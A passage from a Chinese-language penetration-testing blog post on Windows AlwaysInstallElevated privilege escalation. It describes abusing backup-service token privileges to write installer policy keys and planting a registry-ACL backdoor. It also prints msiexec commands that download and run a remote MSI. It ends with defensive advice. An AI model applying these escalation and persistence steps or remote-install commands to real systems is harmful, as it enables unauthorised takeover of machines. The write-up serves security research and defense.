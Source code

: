 如果获得了Backup service用户的权限，输入`whoami /priv`后，发现存在以下权限：

- SeRestorePrivilege
- SeTakeOwnershipPrivilege

此时能够对注册表进行写操作，可以创建对应的注册表项，再利用AlwaysInstallElevated提权

利用SeRestorePrivilege和SeTakeOwnershipPrivilege写注册表可参考之前的文章:[《渗透技巧——Windows Token九种权限的利用》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows-Token%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8/)

### 扩展思路2：

如果已获得系统权限，可以创建一个提权后门

对以下注册表项添加ACL，允许Everyone进行写操作：

- HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
- HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

对注册表项添加ACL的方法可参考之前的文章：[《渗透技巧——Windows下的Access Control List》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B8%8B%E7%9A%84Access-Control-List/)

### 扩展思路3：

msiexec支持远程下载执行，那么能否利用AlwaysInstallElevated提权？

测试命令如下：

```
msiexec /q /i https://raw.githubusercontent.com/3gstudent/test/master/RunProcessHacker.msi
```

执行失败

下面查找原因，显示安装过程，测试命令如下：

```
msiexec /i https://raw.githubusercontent.com/3gstudent/test/master/RunProcessHacker.msi
```

提示来源不可信，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-2/4-1.png)

得出结论：

msi文件需要可信的证书才能远程利用AlwaysInstallElevated提权

## 0x06 防御建议
---

如果没有特殊需求，禁用AlwaysInstallElevated

监控注册表项：

- HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
- HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

## 0x07 小结
---

本文介绍了利用AlwaysInstallElevated提权的方法，找到了使用Metasploit生成的msi文件利用失败的原因，最后介绍了如何通过MSI Wrapper生成可供利用的msi文件


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





